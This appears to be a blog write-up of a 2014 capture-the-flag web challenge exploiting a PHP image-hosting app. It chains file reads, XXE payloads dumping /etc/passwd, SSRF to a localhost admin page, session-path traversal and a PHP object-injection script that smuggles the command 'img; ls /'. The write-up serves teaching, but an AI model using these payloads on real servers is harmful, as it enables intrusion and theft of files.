






I did not solve this level during the CTF, but found it so interesting reading Xelenonz write-up that I couldnt help trying it myself just for the fun and since this blog is my personal notes, I decided to write it here for future reference, but all credits go to Xelenonz.
We are given the code of a Image hostig web app. Reading the code we see how it handle the requests:
include 'config.php';
include 'classes.php';
$action = (isset($_REQUEST['action'])) ? $_REQUEST['action'] : 'View';
$param = (isset($_REQUEST['param'])) ? $_REQUEST['param'] : 'index';
$page = new $action($param);
echo $page;
So action is used to instantiate any arbitrary class and param is the argument for the constructor. Cool. We are given a bunch of classes the application uses to upload and view images and to manage the Session object:
class View {
function __construct($page) {
ob_start();
readfile('html/header.html');
switch ($page) {
case 'index':
readfile('html/index.tpl.html');
break;
case 'upload':
readfile('html/upload.tpl.html');
break;
}
readfile('html/footer.html');
}
function __toString() {
$this->content = ob_get_contents();
ob_end_clean();
return $this->content;
}
}
class Upload {
function __construct($data) {
global $config;
$this->data = base64_decode($data);
$this->filename = md5(uniqid(rand(), true));
$this->path = $config['root'].'images/'.$this->filename;
file_put_contents($this->path, $this->data);
$this->type = exif_imagetype($this->path);
}
function __toString() {
if ($this->type) {
$link = 'http://'.$_SERVER['SERVER_NAME'].'/'.$this->filename;
return '<p>Successfully updated!</p>Your link: <a href="'.$link.'">'.$link.'</a>';
} else {
return '<p>Wrong file type!<p>';
}
}
function __destruct() {
if ($this->type) {
echo '<p>Some file info:
{gfm-js-extract-pre-1}</p>';
} else {
unlink($this->path);
}
}
}
class Image {
function __construct($filename) {
global $config;
$this->filename = $filename;
$this->path = $config['root'].'images/'.$this->filename;
}
function __toString() {
if (preg_match('/^[a-f0-9]{32}$/', $this->filename) && file_exists($this->path)) {
$this->type = exif_imagetype($this->path);
$this->mime = image_type_to_mime_type($this->type);
header('Content-Type: '.$this->mime);
return file_get_contents($this->path);
} else {
return '<h1>Error</h1>';
}
}
}
class Session {
function __construct() {
global $config;
session_set_save_handler(
array($this, "open"), array($this, "close"), array($this, "read"),
array($this, "write"),array($this, "destroy"),array($this, "gc")
);
$this->key = $config['key'];
$this->size = 32;
$this->path = '/tmp';
}
function encrypt($data) {
$iv = mcrypt_create_iv($this->size, MCRYPT_RAND);
$key = hash('sha256', $this->key, true);
$data = $iv.mcrypt_encrypt(MCRYPT_RIJNDAEL_256, $key, $data, MCRYPT_MODE_CBC, $iv);
return $data;
}
function decrypt($data) {
$key = hash('sha256', $this->key, true);
$iv = substr($data, 0, $this->size);
$data = substr($data, $this->size);
$data = mcrypt_decrypt(MCRYPT_RIJNDAEL_256, $key, $data, MCRYPT_MODE_CBC, $iv);
return $data;
}
function write($id, $data) {
$path = $this->path.'/'.$id;
$data = $this->encrypt($data);
file_put_contents($path, $data);
}
function read($id) {
$path = $this->path.'/'.$id;
$data = null;
if (is_file($path)) {
$data = file_get_contents($path);
$data = $this->decrypt($data);
}
return $data;
}
function open($sess_path, $sess_id) {
//nothing
}
function close() {
return true;
}
function gc($maxlifetime) {
$path = $this->path.'/*';
foreach (glob($path) as $file) {
if (filemtime($file) + $maxlifetime < time() && file_exists($file)) {
unlink($file);
}
}
return true;
}
function destroy($id) {
$path = $this->path.'/'.$id;
if (is_file($path)) {
unlink($path);
}
return true;
}
}
The most interesting one are the Upload class whose destructor runs "arbitrary code" and Session which tell us how the Session object is initializated and stored/read from disk (although, we dont know the encryption key that is stored in the config.php file). These are classes are interesting but not useful if we can only create an instance and print the instance tostring return value. Lets look for PHP system classes that could be more useful:
alvaro@winterfell ~> php -r 'var_dump (get_declared_classes ());'
array(139) {
[0]=> string(8) "stdClass"
[1]=> string(9) "Exception"
[2]=> string(14) "ErrorException"
[3]=> string(7) "Closure"
[4]=> string(8) "DateTime"
[5]=> string(12) "DateTimeZone"
[6]=> string(12) "DateInterval"
[7]=> string(10) "DatePeriod"
[8]=> string(11) "LibXMLError"
[9]=> string(7) "SQLite3"
[10]=> string(11) "SQLite3Stmt"
[11]=> string(13) "SQLite3Result"
[12]=> string(12) "DOMException"
[13]=> string(13) "DOMStringList"
[14]=> string(11) "DOMNameList"
[15]=> string(21) "DOMImplementationList"
[16]=> string(23) "DOMImplementationSource"
[17]=> string(17) "DOMImplementation"
[18]=> string(7) "DOMNode"
[19]=> string(16) "DOMNameSpaceNode"
[20]=> string(19) "DOMDocumentFragment"
[21]=> string(11) "DOMDocument"
[22]=> string(11) "DOMNodeList"
[23]=> string(15) "DOMNamedNodeMap"
[24]=> string(16) "DOMCharacterData"
[25]=> string(7) "DOMAttr"
[26]=> string(10) "DOMElement"
[27]=> string(7) "DOMText"
[28]=> string(10) "DOMComment"
[29]=> string(11) "DOMTypeinfo"
[30]=> string(18) "DOMUserDataHandler"
[31]=> string(11) "DOMDomError"
[32]=> string(15) "DOMErrorHandler"
[33]=> string(10) "DOMLocator"
[34]=> string(16) "DOMConfiguration"
[35]=> string(15) "DOMCdataSection"
[36]=> string(15) "DOMDocumentType"
[37]=> string(11) "DOMNotation"
[38]=> string(9) "DOMEntity"
[39]=> string(18) "DOMEntityReference"
[40]=> string(24) "DOMProcessingInstruction"
[41]=> string(15) "DOMStringExtend"
[42]=> string(8) "DOMXPath"
[43]=> string(5) "finfo"
[44]=> string(14) "LogicException"
[45]=> string(24) "BadFunctionCallException"
[46]=> string(22) "BadMethodCallException"
[47]=> string(15) "DomainException"
[48]=> string(24) "InvalidArgumentException"
[49]=> string(15) "LengthException"
[50]=> string(19) "OutOfRangeException"
[51]=> string(16) "RuntimeException"
[52]=> string(20) "OutOfBoundsException"
[53]=> string(17) "OverflowException"
[54]=> string(14) "RangeException"
[55]=> string(18) "UnderflowException"
[56]=> string(24) "UnexpectedValueException"
[57]=> string(25) "RecursiveIteratorIterator"
[58]=> string(16) "IteratorIterator"
[59]=> string(14) "FilterIterator"
[60]=> string(23) "RecursiveFilterIterator"
[61]=> string(22) "CallbackFilterIterator"
[62]=> string(31) "RecursiveCallbackFilterIterator"
[63]=> string(14) "ParentIterator"
[64]=> string(13) "LimitIterator"
[65]=> string(15) "CachingIterator"
[66]=> string(24) "RecursiveCachingIterator"
[67]=> string(16) "NoRewindIterator"
[68]=> string(14) "AppendIterator"
[69]=> string(16) "InfiniteIterator"
[70]=> string(13) "RegexIterator"
[71]=> string(22) "RecursiveRegexIterator"
[72]=> string(13) "EmptyIterator"
[73]=> string(21) "RecursiveTreeIterator"
[74]=> string(11) "ArrayObject"
[75]=> string(13) "ArrayIterator"
[76]=> string(22) "RecursiveArrayIterator"
[77]=> string(11) "SplFileInfo"
[78]=> string(17) "DirectoryIterator"
[79]=> string(18) "FilesystemIterator"
[80]=> string(26) "RecursiveDirectoryIterator"
[81]=> string(12) "GlobIterator"
[82]=> string(13) "SplFileObject"
[83]=> string(17) "SplTempFileObject"
[84]=> string(19) "SplDoublyLinkedList"
[85]=> string(8) "SplQueue"
[86]=> string(8) "SplStack"
[87]=> string(7) "SplHeap"
[88]=> string(10) "SplMinHeap"
[89]=> string(10) "SplMaxHeap"
[90]=> string(16) "SplPriorityQueue"
[91]=> string(13) "SplFixedArray"
[92]=> string(16) "SplObjectStorage"
[93]=> string(16) "MultipleIterator"
[94]=> string(14) "SessionHandler"
[95]=> string(22) "__PHP_Incomplete_Class"
[96]=> string(15) "php_user_filter"
[97]=> string(9) "Directory"
[98]=> string(20) "mysqli_sql_exception"
[99]=> string(13) "mysqli_driver"
[100]=> string(6) "mysqli"
[101]=> string(14) "mysqli_warning"
[102]=> string(13) "mysqli_result"
[103]=> string(11) "mysqli_stmt"
[104]=> string(12) "PDOException"
[105]=> string(3) "PDO"
[106]=> string(12) "PDOStatement"
[107]=> string(6) "PDORow"
[108]=> string(13) "PharException"
[109]=> string(4) "Phar"
[110]=> string(8) "PharData"
[111]=> string(12) "PharFileInfo"
[112]=> string(19) "ReflectionException"
[113]=> string(10) "Reflection"
[114]=> string(26) "ReflectionFunctionAbstract"
[115]=> string(18) "ReflectionFunction"
[116]=> string(19) "ReflectionParameter"
[117]=> string(16) "ReflectionMethod"
[118]=> string(15) "ReflectionClass"
[119]=> string(16) "ReflectionObject"
[120]=> string(18) "ReflectionProperty"
[121]=> string(19) "ReflectionExtension"
[122]=> string(23) "ReflectionZendExtension"
[123]=> string(16) "SimpleXMLElement"
[124]=> string(17) "SimpleXMLIterator"
[125]=> string(4) "SNMP"
[126]=> string(13) "SNMPException"
[127]=> string(10) "SoapClient"
[128]=> string(7) "SoapVar"
[129]=> string(10) "SoapServer"
[130]=> string(9) "SoapFault"
[131]=> string(9) "SoapParam"
[132]=> string(10) "SoapHeader"
[133]=> string(4) "tidy"
[134]=> string(8) "tidyNode"
[135]=> string(9) "XMLReader"
[136]=> string(9) "XMLWriter"
[137]=> string(13) "XSLTProcessor"
[138]=> string(10) "ZipArchive"
}
That's a bunch of classes but going through them we find two that are particulary interest: "SplFileObject" and "SimpleXmlElement".
With SplFileObject we are returned the first line of any file:

You can however, use PHP filters to encode it base64 and get all file contents as a long base64 line:

Thats pretty cool, now we can decode it and get the key:
$config = array();
$config['root'] = '/var/www/';
$config['key'] = '6hQJMFh8gRje67EmpDX3';
$config['IP'] = array('127.0.0.1');
$config['password'] = '3fd5b6db6bc90ddd6a6f6caad27d8b00';
And thats basically as far as I got, I could not bypass the restriction in the "admin.php" to allow only requests from localhost so I could not start the session and try to take advantage of it.
After the CTF ended I found out that we could submit XML documents with external entities and launch a SSRF attack from there. Lets see how.
We can use the "SimpleXMLElement" class to create XML documents like:
POST /index.php?action=SimpleXMLElement HTTP/1.1
Host: hackyou2014tasks.ctf.su:40080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:26.0) Gecko/20100101 Firefox/26.0
Content-Type: application/x-www-form-urlencoded;application/xml
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,es-es;q=0.8,es;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 21
param=<foo>test</foo>

Actually I tried this during the CTF but forgot to add the "Content-Type" header so kept on getting "Internal Server Errors", damn!
Anyway, The server returns us our XML document so now we can try to inject external entities:
POST /index.php?action=SimpleXMLElement HTTP/1.1
Host: hackyou2014tasks.ctf.su:40080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:26.0) Gecko/20100101 Firefox/26.0
Content-Type: application/x-www-form-urlencoded;application/xml
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,es-es;q=0.8,es;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 76
param=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd" >]><foo>%26xxe;</foo>
HTTP/1.1 200 OK
Date: Fri, 17 Jan 2014 13:49:12 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.8
Vary: Accept-Encoding
Content-Length: 1041
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
The nice thing about this XXE vulnerability is not that we can read any file (that we already could using the SplFileObject class) but that we can use to initiate requests from the own server!
Now we can bypass localhost address restriction, however accessing http://locahost/admin.php returns some characters that break the XML schema so we will use the PHP base64 encoder filter to return an XML schema friendly version of the page:
POST /index.php?action=SimpleXMLElement HTTP/1.1
Host: hackyou2014tasks.ctf.su:40080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:26.0) Gecko/20100101 Firefox/26.0
Content-Type: application/x-www-form-urlencoded;application/xml
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,es-es;q=0.8,es;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 140
param=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://localhost/admin.php" >]><foo>%26xxe;</foo>
HTTP/1.1 200 OK
Date: Fri, 17 Jan 2014 13:51:57 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.8
Vary: Accept-Encoding
Content-Length: 256
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
PGh0bWw+Cjxib2R5PgoJPGI+RW50ZXIgcGFzc3dvcmQ6PC9iPgoJPGZvcm0gYWN0aW9uPSJhZG1pbi5waHAiIG1ldGhvZD0iUE9TVCI+CgkJPGlucHV0IHR5cGU9InRleHQiIG5hbWU9InBhc3N3b3JkIj4KCQk8aW5wdXQgdHlwZT0ic3VibWl0IiBuYW1lPSJzdWJtaXQiIHZhbHVlPSJHTyI+Cgk8L2Zvcm0+CjwvYm9keT4KPC9odG1sPgo=
That decodes into:
<html>
<body>
<b>Enter password:</b>
<form action="admin.php" method="POST">
<input type="text" name="password">
<input type="submit" name="submit" value="GO">
</form>
</body>
</html>
Now, I dont really need to become admin since right after the local IP check, the Session is initialized:
if (!in_array($_SERVER['REMOTE_ADDR'], $config['IP']))
die('<h1>Access denied</h1>');
$handler = new Session();
session_start();
So session_start() will call the session handler open() and read() methods to restore the session. If we look at our custom Session handler we see that the serialized session is read from /tmp/<phpsessionid>:
function __construct() {
global $config;
session_set_save_handler(
array($this, "open"), array($this, "close"), array($this, "read"),
array($this, "write"),array($this, "destroy"),array($this, "gc")
);
$this->key = $config['key'];
$this->size = 32;
$this->path = '/tmp';
}
function read($id) {
$path = $this->path.'/'.$id;
$data = null;
if (is_file($path)) {
$data = file_get_contents($path);
$data = $this->decrypt($data);
}
return $data;
}
And since we can control PHPSESSIONID by sending it as a query parameter using the SSRF attack, we can point the read() method to a different file. Luckly for us we can upload images to /var/www/images right?? so if we make:
PHPSESSIONID=../var/www/images/<image under control>
We will fool the application to read the session from our file. All we have to do now is uploading an image that is an encrypted version of a serialized session containing any arbitrary objects we want to store there.
Here its where the Upload class come really handy since its destructor can execute any command if we control the $this-path variable which we do:
class Upload {
function __construct($data) {
global $config;
$this->data = base64_decode($data);
$this->filename = md5(uniqid(rand(), true));
$this->path = $config['root'].'images/'.$this->filename;
file_put_contents($this->path, $this->data);
$this->type = exif_imagetype($this->path);
}
function __toString() {
if ($this->type) {
$link = 'http://'.$_SERVER['SERVER_NAME'].'/'.$this->filename;
return '<p>Successfully updated!</p>Your link: <a href="'.$link.'">'.$link.'</a>';
} else {
return '<p>Wrong file type!<p>';
}
}
function __destruct() {
if ($this->type) {
echo '<p>Some file info:
{gfm-js-extract-pre-2}</p>';
} else {
unlink($this->path);
}
}
}
So we can craft a session object containing an instance of a hand crafted Upolad* class and assign it to $_SESSION['auth'] (so the welcome message is printed).
Also, if we want to obtain our exploit "image" hash to craft the PHPSESSIONID, we need our exploit to have "$this->type > 0" and for that we need exif_imagetype() to return a value bigger than 0. So our exploit will be generated with the following script that will run "ls /" when the Upload instance is destroyed. PHP 5 introduced a destructor concept similar to that of other object-oriented languages, such as C++. The destructor method will be called as soon as there are no other references to a particular object, or in any order during the shutdown sequence.
class Upload {
function __construct($path) {
$this->data = "";
$this->filename = "";
$this->path = $path;
$this->type = "image/jpeg";
}
}
function encrypt($data) {
$size = 32;
$key = '6hQJMFh8gRje67EmpDX3';
$iv = mcrypt_create_iv($size, MCRYPT_RAND);
$key = hash('sha256', $key, true);
$data = $iv.mcrypt_encrypt(MCRYPT_RIJNDAEL_256, $key, $data, MCRYPT_MODE_CBC, $iv);
return $data;
}
$upload = new Upload("img; ls /");
$payload = 'auth|'.serialize($upload);
$data = '';
$file = 0;
while (true){
echo '.';
$data = encrypt($payload);
file_put_contents("exploit",$data);
$file = exif_imagetype('exploit');
if($file > 0){
echo $file."\n";
die("Done\n");
};
};
Now our exploit will be accepted:

All we are left to do is use our SSRF vector to visit the admin.php page for us and make it set the PHPSESSIONID in the query parameter:

If we decode the response:

The flag was:
CTF{42a38432d46b9054004a7a87fd3140c7}